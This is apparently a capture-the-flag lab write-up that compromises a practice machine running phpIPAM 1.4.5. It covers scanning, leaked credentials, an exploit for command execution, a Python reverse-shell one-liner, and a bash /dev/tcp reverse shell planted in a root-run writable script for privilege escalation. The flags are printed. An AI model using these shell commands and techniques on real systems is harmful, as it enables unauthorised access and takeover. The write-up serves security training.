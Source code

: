 initial nmap scan
```
└─$ sudo nmap -sV 10.10.14.212
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 13:59 PDT
Nmap scan report for 10.10.14.212
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.56 seconds
```

Navigated to 10.10.14.212 and found a login page
`phpIPAM IP address management [v1.4.5]` with possible user `0day` (0day@ollieshouse.thm)

gobuster
```
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,js -u 10.10.14.212
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.14.212
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt,js
[+] Timeout:                 10s
===============================================================
2022/08/23 14:03:41 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.hta.js              (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.js         (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.js         (Status: 403) [Size: 277]
/api                  (Status: 301) [Size: 310] [--> http://10.10.14.212/api/]
/app                  (Status: 301) [Size: 310] [--> http://10.10.14.212/app/]
/config.php           (Status: 200) [Size: 0]                                 
/css                  (Status: 301) [Size: 310] [--> http://10.10.14.212/css/]
/db                   (Status: 301) [Size: 309] [--> http://10.10.14.212/db/] 
/functions            (Status: 301) [Size: 316] [--> http://10.10.14.212/functions/]
/imgs                 (Status: 301) [Size: 311] [--> http://10.10.14.212/imgs/]     
/index.php            (Status: 302) [Size: 0] [--> http://10.10.14.212/index.php?page=login]
/index.php            (Status: 302) [Size: 0] [--> http://10.10.14.212/index.php?page=login]
/install              (Status: 301) [Size: 314] [--> http://10.10.14.212/install/]          
/javascript           (Status: 301) [Size: 317] [--> http://10.10.14.212/javascript/]       
/js                   (Status: 301) [Size: 309] [--> http://10.10.14.212/js/]               
/misc                 (Status: 301) [Size: 311] [--> http://10.10.14.212/misc/]             
/robots.txt           (Status: 200) [Size: 54]                                              
/robots.txt           (Status: 200) [Size: 54]                                              
/server-status        (Status: 403) [Size: 277]                                             
/upgrade              (Status: 301) [Size: 314] [--> http://10.10.14.212/upgrade/] 
```

in /db/schema.sql I found this being inserted in to the `users` table.
```
(1,
'Admin',
X'243624726F756E64733D33303030244A51454536644C394E70766A6546733424524B3558336F6132382E557A742F6835564166647273766C56652E3748675155594B4D58544A5573756438646D5766507A5A51506252626B38784A6E314B797974342E64576D346E4A4959684156326D624F5A33672E',
X'','Administrator','phpIPAM Admin','admin@domain.local',X'30','statistics;favourite_subnets;changelog;access_logs;error_logs;top10_hosts_v4', 'Yes');


```
The password is a hex encoded string which decodes to
```
$6$rounds000$JQEE6dL9NpvjeFs4$RK5X3oa28.Uzt/h5VAfdrsvlVe.7HgQUYKMXTJUsud8dmWfPzZQPbRbk8xJn1Kyyt4.dWm4nJIYhAV2mbOZ3g.
```

I couldn't crack this hash, so I went back and added `ollieshouse.thm` to my /etc/hosts. I tried to NC connect to port 1337 because I kept
getting weird output from it.
```
└─$ nc ollieshouse.thm 1337
Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.

What is your name? ollie
What's up, Ollie! It's been a while. What are you here for? stuff
Ya' know what? Ollie. If you can answer a question about me, I might have something for you.


What breed of dog am I? I'll make it a multiple choice question to keep it easy: Bulldog, Husky, Duck or Wolf? Bulldog
You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...
Please hold on a minute
Ok, I'm back.
After a lengthy discussion, we've come to the conclusion that you are the right person for the job.Here are the credentials for our administration panel.

                    Username: admin

                    Password: OllieUnixMontgomery!

PS: Good luck and next time bring some treats!

```

I found an exploit using searchsploit on my kali vm to get RCE if I have credentials to login. I ran the exploit script and
got a shell. I ran `http://ollie.thm/evil.php?cmd=python3%20--version` which gave the output `1 Python 3.8.10  3 4`

I ran...
```python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.46.127",1111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```
and got a reverse shell. I'm in!

Foothold

I got logged in as user `www-data`. I was able to pivot and `su` into user `ollie` using the password we found `OllieUnixMontgomery!`
```
cat user.txt
THM{Ollie_boi_is_daH_Cut3st}

ollie@hackerdog:~/.local/share$ sudo -l
sudo -l
[sudo] password for ollie: OllieUnixMontgomery!

Sorry, user ollie may not run sudo on hackerdog.

uid=1000(ollie) gid=1000(ollie) groups=1000(ollie),4(adm),24(cdrom),30(dip),46(plugdev)

```


/usr/bin/feedme
```
cat /etc/systemd/system/feedme.service
# feedollie.service
# test
[Unit] 
Description= Feed Ollie
Documentation= Ollie is hungry!

[Service] 
Type= simple 
User= root

ExecStart= /usr/bin/feedme

[Install] 
WantedBy= multi-user.target
ollie@hackerdog:/var/log$ cd /usr/bin
cd /usr/bin
ollie@hackerdog:/usr/bin$ ltrace feedme
ltrace feedme
"feedme" is not an ELF file
ollie@hackerdog:/usr/bin$ cat feedme
cat feedme
#!/bin/bash

# This is weird?
ollie@hackerdog:/usr/bin$ ls -la | grep feedme 
ls -la | grep feedme
-rwxrw-r--  1 root   ollie          30 Feb 12  2022 feedme

```

I left a reverse shell in the script and waited to see if it ran
```
bash -i >& /dev/tcp/10.13.46.127/1112 0>&1
```

ROOT SHELL!!!
```
root@hackerdog:/# cat /root/root.txt
cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
root@hackerdog:/# 

```
